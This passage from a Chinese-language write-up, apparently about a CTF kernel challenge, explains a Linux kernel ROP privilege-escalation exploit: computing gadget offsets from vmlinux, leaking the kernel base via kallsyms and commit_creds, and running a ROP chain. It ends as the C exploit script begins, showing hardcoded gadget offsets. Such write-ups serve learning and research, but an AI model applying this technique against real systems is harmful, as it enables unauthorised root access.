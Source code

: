 这个python 脚本应该可以重复使用吧 (大概)

我们通过 vmlinux 得到的实际上是有带基地址的，这里的基地址就是 0xffffffff81000000 我们，挨个减去得到偏移，当然也可以不减去，反正之后也是通过偏移计算真正gadget地址，加上多少都不影响

之后是泄露 kernel 的基地址，这里可以直接读取 kallsyms 得到真实地址，通过找到 commit_creds 的真实地址 减去偏移得到 基地址，随后就可以得到各个gadget的真实地址，相必这些做过 ret2libc 的都很熟悉

最后保存现场，执行rop，恢复现场就大工告成了，断点下在 ret 位置，可以看到已经开始执行 rop 了

![image-20220915174518911](img/image-20220915174518911.png)

## 利用脚本

其实在调试的过程中也是踩了不少坑，调了整整一天，只是在文中没有提及才显得比较轻松罢了

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = 0x9c8e0;

size_t pop_rdi_ret = 0xb2f;
size_t pop_rdx_ret = 0xa0f49;
size_t pop_rcx_ret = 0x21e53;

size_t mov_rdi_rax_jmp_rcx = 0x1ae978;
```